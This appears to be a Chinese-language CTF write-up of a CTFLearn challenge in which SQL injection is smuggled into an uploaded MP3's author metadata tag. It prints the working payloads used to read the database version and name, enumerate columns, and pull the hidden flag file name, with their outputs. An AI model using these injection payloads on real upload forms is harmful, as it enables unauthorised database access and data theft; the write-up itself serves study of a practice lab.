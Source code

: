 ### MP3 元数据注入

话不多说，直接上题（CTFLearn）

![](https://pic1.imgdb.cn/item/682ec71a58cb8da5c8053779.png)

打开网站是个上传音频文件的功能

![](https://pic1.imgdb.cn/item/682ec72d58cb8da5c805378c.png)

只能上传 `.mp3` 文件

![](https://pic1.imgdb.cn/item/682ec75658cb8da5c80537cb.png)

我们尝试是否可以在 `exifdata` 中注入 SQL，结果确实可以

因为我们使用 easyTAG 修改元数据

您可以创建一个 `mp3` 包含以下元数据的语句：

```sql
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

这将创建以下语句

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

开头 `a` 和 `b` 结尾是必要的，因为第一个和最后一个字符被截断了

这给了我们数据库版本

```sql
5.5.49-0ubuntu0.14.04.1
```

接下来我们想知道数据库名称

```sql
author = a', (SELECT database()))-- -b:
audioedit
```

当然还有列名

```sql
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

但是这给了我们一个插入错误！`:(`

问题是你不能同时从正在插入数据的数据库中进行选择

```sql
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

最后利用的URL是

```
https://web.ctflearn.com/audioedit/edit.php?file =supersecretflagf1le.mp3
```

![](https://pic1.imgdb.cn/item/682ecd0858cb8da5c8055651.png)

![](https://pic1.imgdb.cn/item/682ecd3d58cb8da5c80557d9.png)